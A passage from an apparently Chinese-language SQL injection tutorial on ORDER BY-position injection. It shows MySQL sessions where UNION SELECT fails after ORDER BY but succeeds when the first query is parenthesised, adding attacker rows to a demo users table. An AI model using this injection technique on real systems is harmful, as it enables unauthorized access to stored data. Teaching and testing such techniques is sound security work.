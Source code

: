 ![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165050006.png)

### 3、联合注入(罕见)

order by位置后无法接union select，语法不支持，报错如下。

```sql
mysql&gt; select * from users order by id union select 1,2,3,4,5;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39;union select 1,2,3,4,5&#39; at line 1
```

但是有一种情况，可能可以用，即前一句SQL语句整体处在括号中。如下：

```sql
mysql&gt; (select * from users order by id);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
|  4 | aduser | 123456   |   10 | beijing   |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (0.01 sec)

mysql&gt; (select * from users order by id) union select 1,2,3,4,5;
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
|  4 | aduser | 123456   |   10 | beijing   |
|  1 | 2      | 3        |    4 | 5         |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
5 rows in set (0.01 sec)
```

这种情况非常罕见，利用条件比较苛刻。
